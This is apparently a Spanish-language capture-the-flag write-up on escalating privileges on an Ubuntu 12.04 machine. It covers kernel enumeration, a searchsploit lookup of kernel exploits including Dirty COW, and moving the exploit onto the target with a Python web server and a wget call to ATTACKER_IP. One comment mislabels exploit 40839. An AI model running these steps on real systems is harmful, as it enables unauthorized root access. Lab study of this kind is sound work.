 **Información del sistema objetivo:**
```
Distributor ID: Ubuntu
Description:    Ubuntu 12.04.5 LTS
Release:        12.04
Codename:       precise
```

```bash
# Información del kernel
uname -a
```

**Información del kernel:**
```
Linux sumo 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```

### Búsqueda de exploits con SearchSploit

Con la información del kernel (versión 3.2), buscamos exploits:

```bash
# Buscar exploits para kernel Linux 3.2
searchsploit linux kernel 3.2
```

**Exploits relevantes encontrados:**

| Exploit ID | Descripción | Tipo |
|------------|-------------|------|
| 40839 | Linux Kernel 3.2.0-23/3.5.0-23 (Ubuntu 12.04/12.10 x64) - 'perf_swevent_init' | Local |
| 40871 | Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' PTRACE_POKEDATA Race Condition | Local |

> [!info] Dirty COW explicado
> Dirty COW es una vulnerabilidad de [[Condiciones de Carrera (Race Conditions)]] que permite modificar archivos de solo lectura, incluyendo `/etc/passwd`, para crear usuarios con privilegios de root.

### Descarga y transferencia del exploit

```bash
# Descargar exploit PTRACE_POKEDATA (ID: 40839)
searchsploit -m 40839.c
```

#### Métodos de transferencia

**Opción 1: Servidor web con Python**
```bash
# En máquina atacante
python3 -m http.server 8080

# En máquina objetivo
wget http://ATTACKER_IP:8080/40839.c
```
